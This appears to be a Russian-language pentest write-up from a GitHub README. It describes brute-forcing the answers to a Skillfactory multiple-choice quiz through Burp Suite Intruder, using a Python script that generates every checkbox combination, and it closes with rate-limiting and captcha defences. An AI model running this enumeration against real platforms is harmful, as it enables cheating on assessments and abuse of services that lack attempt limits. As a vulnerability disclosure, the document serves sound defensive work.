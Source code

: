 # Skillfactory Permutation Brute-Force Vulnerability

## 🔍 Initialization

### Есть тест, предполагающий несколько вариантов правильных ответов.  
![init](screenshots/01.png)


## 🕵️ Enumeration

### Перехватываю отправляемый запрос в Burp Suite  
![burp_intercept](screenshots/02.png) 
  
  
#### Payload в URL encoded:  
```html
input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[]=choice_0
```

#### Если ответ неправильный, то в `Response` возвращается `json`, содержащий `"success": "incorrect"`  

### Смотрю исходный код отмеченного чекбокса
![html](screenshots/03.png)  

#### Т.е. получается, что в запросе отправляется `name` и `value` отмеченных чекбоксов.

### Составляю список всех имен и значений чекбоксов в этом вопросе  
| name | value |
|------|-------|
| input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[] | choice_0 |
| input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[] | choice_1 |
| input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[] | choice_2 |
| input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[] | choice_3 |
| input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[] | choice_4 |
| input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[] | choice_5 |
| input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[] | choice_6 |


- `name` - это идентификатор вопроса  
- `value` - идентификаторы чекбоксов, которые проставляются по индексу в массиве
  

### Зная всё это, легко написать скрипт, который будет принимать `идентификатор вопроса` и `количество вариантов`, и составлять словарь со всеми возможными комбинациями:
```python
import itertools
import argparse
from urllib.parse import quote

def generate_combinations(input_name: str, n: int) -> str:
    digits = list(range(n))
    results = []
    
    for j in range(1, len(digits) + 1):
        for comb in itertools.combinations(digits, j):
            param_pairs = [f"{input_name}=choice_{x}" for x in comb]
            query_string = "&".join(param_pairs)
            encoded_query = quote(query_string, safe='=&')
            results.append(encoded_query)
    
    return '\n'.join(results)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Generate URL-encoded combinations.')
    parser.add_argument('--name', type=str, required=True, help='Input name (e.g., "input_name[]")')
    parser.add_argument('--count', type=int, required=True, help='Number of choices (n)')
    parser.add_argument('--output', type=str, default='skill.lst', help='Output file path (default: skill.lst)')
    args = parser.parse_args()

    output_text = generate_combinations(args.name, args.count)
    
    with open(args.output, 'w') as f:
        f.write(output_text)
    
    print(f"Generated {output_text.count('\n') + 1} combinations, saved to: {args.output}")
```

## 🎯 Exploitation

### Генерирую словарь
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/RealProjects/Skillfactory/PermutationsBruteForce]
└─$ python3 xx.py --name 'input_7e44eb6d37ea49b8844fa93a96ea014f_2_1[]' --count 7 --output skill.lst
Generated 127 combinations, saved to: skill.lst
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/RealProjects/Skillfactory/PermutationsBruteForce]
└─$ head -n 2 < skill.lst                                                                           
input_7e44eb6d37ea49b8844fa93a96ea014f_2_1%5B%5D=choice_0
input_7e44eb6d37ea49b8844fa93a96ea014f_2_1%5B%5D=choice_1
```

### Отправляю перехваченный в `Burp Suite` запрос в `Intruder`.  
Добавляю `Position` на всю `payload` post запроса.  
Загружаю сгенерированный скриптом словарь, содержащий в данном случае 127 комбинаций.  
Убираю отметку `URL-encode these chatacters`  
![burp_intruder](screenshots/04.png)


### Настраиваю вкладку `Settings` для `Intruder`.  
Добавляю остановку атаки, если в `Response` будет отсутствовать `"success": "incorrect"`.  
<div align="center">
  <img src="screenshots/05.png" alt="burp_settings">
</div>


### Также хочу отобразить дополнительную колонку в результатах вывода, с помощью `Grep - Extract`  
![grep_extract](screenshots/06.png)


### Сортирую результаты атаки по дополнительному столбцу и получаю правильную комбинацию ответов:  
![burp_attack](screenshots/07.png)  


## 🏁 Result
Если запускать атаку синхронно, то достаточно будет просто обновить страницу в браузере, вопрос автоматически будет отмечен, как правильно отвеченный.  
Но так как в данном случае атака происходила асинхронно, необходимо отметить правильные варианты и нажать **Отправить**  
![result](screenshots/08.png)


## 📋 Резюме

🧰 **Инструменты:**
  - Firefox, Burp Suite, python3  

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Permutation Brute-Force
    - Нет ограничений на количество попыток (неограниченные запросы)
    - Нет задержки между попытками
    - Нет блокировки после множества неудачных попыток

🛡 **Советы по защите:**
  - Логировать подозрительную активность и ввести механизмы защиты
    - Ввести ограничение на попытки (например, 10-20 попыток на задание в течение дня)
    - Добавить капчу после нескольких неудачных ответов
    - Засекать время между ответами (если ответы приходят слишком быстро и их много — блокировать до конца дня)
